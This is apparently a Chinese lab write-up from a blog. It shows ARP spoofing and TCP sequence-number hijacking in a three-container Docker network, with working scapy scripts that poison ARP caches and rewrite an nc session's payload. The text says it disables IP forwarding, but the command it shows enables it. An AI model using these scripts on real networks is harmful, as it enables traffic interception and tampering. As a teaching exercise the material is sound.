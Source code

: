 ```yaml
---
layout:     post
title:      arp欺骗+TCP序列号攻击
subtitle:   arp欺骗+TCP序列号攻击
date:       2023-04-04
author:     xc
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - linux
---
```

# arp欺骗+TCP序列号攻击

`1.实验环境`

任意两台相互能通信的机器HostA、HostB+一台攻击机HostM。

本文在Ubuntu上创建3个docker。

IP_A=“192.168.60.2”

IP_M=“192.168.60.3”

IP_B=“192.168.60.4”

MAC_A=‘02:42:c0:a8:3c:02’

MAC_M=‘02:42:c0:a8:3c:03’

MAC_B=‘02:42:c0:a8:3c:04’

`2.攻击对象`

攻击nc连接中，A向B发送数据的过程。

```
HostA nc监听333端口：nc -lv 333
HostB nc连接333端口：nc 192.168.60.2 333
```

`3.攻击目的`

将A向B发送的数据篡改为固定的字符串'U000011222_shandianchengzi\n'。

`4.最终效果`

![](/img/20-21-58.png)

## 实验步骤

### 实验环境搭建

利用docker搭建3台ubuntu服务器，并且指定ip，使其能相互ping通

1.搭建网卡

docker network create --subnet=192.168.60.0/24 --gateway=192.168.60.1 docker-intranet

2.指定网卡和IP

sudo docker run -it --name=HostA --hostname=HostA --net=docker-intranet --ip=192.168.60.2 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostB --hostname=HostB --net=docker-intranet --ip=192.168.60.4 --privileged "ubuntu" /bin/bash

sudo docker run -it --name=HostM --hostname=HostM --net=docker-intranet --ip=192.168.60.3 --privileged "ubuntu" /bin/bash

并在其中安装nc和python环境

```
sed -i s@/archive.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

sed -i s@/security.ubuntu.com/@/mirrors.aliyun.com/@g /etc/apt/sources.list

apt-get clean

apt-get update

apt install net-tools

apt-get install vim

apt-get -y install netcat-traditional

update-alternatives --config nc
```

### ARP欺骗
首先，关闭ip转发：

```
sysctl net.ipv4.ip_forward=1
```

然后，对HostA、B进行ARP欺骗，在HostM上运行ARP欺骗程序：

```
from scapy.all import *
from time import *

IP_A    = "192.168.60.2"
IP_B    = "192.168.60.4"
MAC_M     = "02:42:c0:a8:3c:03"

print("SENDING SPOOFED ARP REQUEST......")

ether = Ether()
ether.dst = "ff:ff:ff:ff:ff:ff"
ether.src = "02:42:c0:a8:3c:03"

arp = ARP()
arp.psrc  = IP_B
arp.hwsrc = MAC_M
arp.pdst  = IP_A
arp.op = 1
frame1 = ether/arp
arp2 = ARP()
arp2.psrc = IP_A
arp2.hwsrc = MAC_M
arp2.pdst = IP_B
arp2.op = 1
frame2 = ether/arp2
while 1:
  sendp(frame1)
  sendp(frame2)
  sleep(5)
```
![](/img/20-32-06.png)

并在AB间建立nc即时对话。

HostA运行：nc -lp 333

HostB运行：nc 192.168.60.2 333

### TCP序列号攻击

Hostm作为中间人，记录HostA发给HostB的Seq号、HostB发给HostA的Ack号，HostM用A的字符串长度计算给HostA的ACK包中的Seq和Ack，用’U000011222_shandianchengzi\n’的长度计算给HostB的Seq号，就可以伪造正确的序列号。

```
from scapy.all import *
IP_A="192.168.60.2"
IP_B="192.168.60.4"
MAC_A='02:42:c0:a8:3c:02'
MAC_M='02:42:c0:a8:3c:03'
MAC_B='02:42:c0:a8:3c:04'
temp={'SEQ':0,'ACK':0,'LEN':0,'ACK2':0}
def spoof_pkt(pkt):
  try:
    if(pkt.src==MAC_M):
      return
    if(pkt[IP].src==IP_A and pkt[IP].dst==IP_B):
      pkt.src=MAC_M
      pkt.dst=MAC_B
      temp['LEN']=len(pkt[TCP].load)
      temp['SEQ']=pkt[TCP].seq
      if(temp['ACK2']): #new
        pkt[TCP].seq=temp['ACK2'] #new
      temp['ACK']=pkt[TCP].ack
      pkt[IP].len=79
      pkt[TCP].load='U000011222_shandianchengzi\n'
      pkt.show()
    elif(pkt[IP].src==IP_B and pkt[IP].dst==IP_A):
      pkt.src=MAC_M
      pkt.dst=MAC_A
      if(pkt[TCP].seq==temp['ACK']):
        temp['ACK2']=pkt[TCP].ack #new
        pkt[TCP].ack=temp['SEQ']+temp['LEN']
    del(pkt.chksum)
    del(pkt[TCP].chksum)
    #pkt.show()
    sendp(pkt)
  except Exception as e:
    print("[-] Error = "+str(e))
    if(pkt.type!=2054 and str(e)!="load"):
      pkt.show()
    try:
      sendp(pkt)
    except Exception as e2:
      pass

f= "host "+IP_A+" and host "+IP_B+" and tcp"
pkt = sniff(filter=f,iface='eth0', prn=spoof_pkt)
```

![](/img/20-32-57.png)

现象

![](/img/20-21-58.png)
